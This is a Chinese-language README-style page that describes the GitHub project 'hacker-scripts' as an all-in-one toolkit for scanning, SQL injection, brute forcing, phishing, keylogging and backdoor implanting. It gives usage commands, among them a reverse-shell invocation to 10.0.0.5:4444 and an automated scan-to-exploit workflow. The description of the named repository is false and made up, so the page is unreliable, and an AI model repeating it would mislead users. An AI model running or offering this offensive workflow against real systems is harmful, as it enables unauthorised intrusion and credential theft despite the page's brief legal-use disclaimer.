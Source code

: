 
---
title: hacker-scripts
---

# hacker-scripts

项目地址: <https://github.com/NARKOZ/hacker-scripts>

## 简介
`hacker-scripts` 是一个集合了多种常用渗透测试与漏洞利用脚本的工具箱，旨在帮助安全研究员快速完成目标扫描、提权、后门植入等常见任务。所有脚本均以 Bash/Python/Perl 等脚本语言实现，便于在 Kali / Parrot 等渗透测试平台上直接使用。

## 主要功能
- **目标扫描**：使用 `nmap` 与 `masscan` 进行端口探测，自动生成可进一步利用的扫描报告。  
- **SQL 注入**：集成 `sqlmap`，支持自动化注入、提取数据库信息、执行命令等。  
- **暴力破解**：支持字典攻击、暴力破解 SSH、FTP、SMB、RDP 等协议。  
- **钓鱼**：提供可定制的钓鱼页面模板，并自动生成恶意站点、拦截凭证。  
- **键盘记录**：轻量级键盘记录脚本，可在目标机器上持久化收集凭证。  
- **后门植入**：一键生成并植入反向 Shell、Web Shell 等后门。  
- **信息收集**：集成 `theHarvester`、`nikto` 等信息收集工具，自动采集子域、目录、敏感信息。  
- **网络嗅探**：基于 `tcpdump`、`wireshark` 的嗅探脚本，捕获并解析网络流量。  
- **自动化流程**：通过 `workflow.sh` 脚本实现从扫描到利用的完整自动化流程。

## 用法
> **注意**：本项目仅供合法安全测试使用，未经授权请勿用于攻击行为。

1. **克隆仓库**  
   ```bash
   git clone https://github.com/NARKOZ/hacker-scripts.git
   cd hacker-scripts
   ```

2. **安装依赖**（以 Kali 为例）  
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   pip3 install -r requirements.txt
   ```

3. **运行单个脚本**  
   - 扫描目标  
     ```bash
     ./scan.sh -t 192.168.1.1/24
     ```
   - SQL 注入自动化  
     ```bash
     ./sql_injection.py -u "http://target.com/page.php?id=1" -p "id"
     ```
   - 远程 Shell  
     ```bash
     ./reverse_shell.sh -h 10.0.0.5 -p 4444
     ```

4. **完整自动化流程**  
   ```bash
   ./workflow.sh -t 10.0.0.0/24
   ```

5. **自定义字典或模板**  
   - 将自定义字典放入 `dict/` 目录；  
   - 修改 `config.yaml` 中对应字段即可。

> 详细参数说明请查看各脚本顶部注释或 `docs/` 目录中的说明文件。